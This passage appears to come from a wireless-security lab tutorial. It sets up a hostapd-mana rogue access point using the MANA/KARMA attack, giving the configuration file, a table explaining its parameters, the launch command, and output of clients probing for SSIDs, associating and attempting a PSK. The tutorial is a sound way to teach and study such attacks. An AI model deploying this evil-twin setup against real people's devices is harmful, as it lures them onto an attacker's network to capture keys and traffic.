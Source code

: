 ```configuration
interface=wlan1
driver=nl80211
hw_mode=g
channel=1
ssid=Anything
wpa=2
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP CCMP
wpa_passphrase=Anything

# Mana Configuration
enable_mana=1
mana_loud=1

```

In this file, we specify many parameters. These parameters can be broken down like the following:

| Item | Description |
| --- | --- |
| `SSID` | The SSID of the AP we want to set |
| `Interface` | The interface which we will be hosting the access point on. |
| `Channel` | Configures the access point to operate on selected Wi-Fi channel |
| `hw_mode` | The hw\_mode parameter in the hostapd configuration file specifies the hardware mode (frequency band) that the access point should operate in. |
| `enable_mana` | Enables MANA mode, which is the KARMA beacon attack. This will help stations know that our access point exists, making transitions easier and our attack less intrusive. |
| `Mana_loud` | This option sets whether or not all beacons will be retransmitted to clients. If we are attempting to be stealthy, we could set this to zero. |
| `wpa=2` | Enables WPA2 security for the access point. |
| `wpa_key_mgmt` | Configures WPA2 with Pre-Shared Key (PSK) authentication. |
| `rsn_pairwise` | Specifies CCMP (AES) as the encryption method for WPA2. |
| `wpa_passphrase` | Sets the WPA2 PSK passphrase to "Anything". |

The SSID is set to `Anything` because `hostapd-mana` automatically responds to probe requests from clients, mimicking the SSIDs they are probing for. Since we are unsure of the authentication method used by the clients, we configure it to support `WPA-PSK` for both WPA1 and WPA2, allowing both TKIP and CCMP encryption methods.

We can start the MANA attack using the following command:

```shell
hostapd-mana hostapd.conf

Configuration file: hostapd.conf
rfkill: Cannot open RFKILL control device
Using interface wlan1 with hwaddr be:0c:d7:dd:82:c4 and ssid "Anything"
wlan1: interface state UNINITIALIZED->ENABLED
wlan1: AP-ENABLED

MANA - Directed probe request for SSID 'HackTheWireless' from 3a:00:0a:1b:21:24
MANA - Directed probe request for SSID 'HackMe' from 8a:eb:7e:f9:15:3e
wlan1: STA 8a:eb:7e:f9:15:3e IEEE 802.11: authenticated
wlan1: STA 8a:eb:7e:f9:15:3e IEEE 802.11: associated (aid 1)

wlan1: AP-STA-POSSIBLE-PSK-MISMATCH 8a:eb:7e:f9:15:3e
wlan1: AP-STA-POSSIBLE-PSK-MISMATCH 8a:eb:7e:f9:15:3e

```
